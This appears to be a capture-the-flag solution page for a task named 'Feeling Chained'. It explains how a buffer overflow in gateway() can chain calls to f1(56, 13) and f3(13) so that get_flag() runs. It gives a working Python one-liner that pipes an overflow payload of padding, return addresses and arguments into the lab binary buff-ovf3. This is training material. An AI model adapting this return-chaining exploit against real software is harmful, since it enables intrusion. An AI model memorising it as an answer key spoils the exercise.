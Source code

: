 ```yaml
---
nav_order: 1
parent: 'Task: Feeling Chained'
---
```


# Solution

By using the buffer overflow in `gateway()`, functions `f1(56, 13)` and `f3(13)` need to be called in this order, with those exact parameters.
`f3` is the one that actually calls `get_flag()`.
Calling `get_flag()` directly shouldn't work (a global variable is checked to make sure all steps were made).

```sh
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*22 + b"\x0c\x87\x04\x08" + b"\xb7\x86\x04\x08" + b"\x38\x00\x00\x00" + b"\x0d\x00\x00\x00")' | ./buff-ovf3
```
